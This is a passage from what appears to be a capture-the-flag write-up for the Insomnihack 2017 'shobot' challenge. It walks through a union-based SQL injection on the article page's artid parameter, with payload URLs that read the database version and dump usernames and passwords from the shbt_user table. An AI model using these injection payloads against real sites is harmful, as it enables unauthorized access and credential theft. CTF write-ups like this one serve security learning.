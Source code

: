 The we can test slowly each parameter.

There seems to be an injection on the parameter id of the article page.

    http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,2,3,4,5%20%23

![shobot simple union sqli](/media/2017.01/sqli1.png){: .image-process-article-image}

We search the back end database with the versions requests:

    http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,@@version,3,4,5%20%23

So it is operated by a MySQL database. Then we need to fine the right table.

The finale request is:

    http://shobot.teaser.insomnihack.ch/?page=article&artid=4%27%20%20union%20select%201,shbt_username,shbt_userpassword,4,5%20from%20shbt_user%23
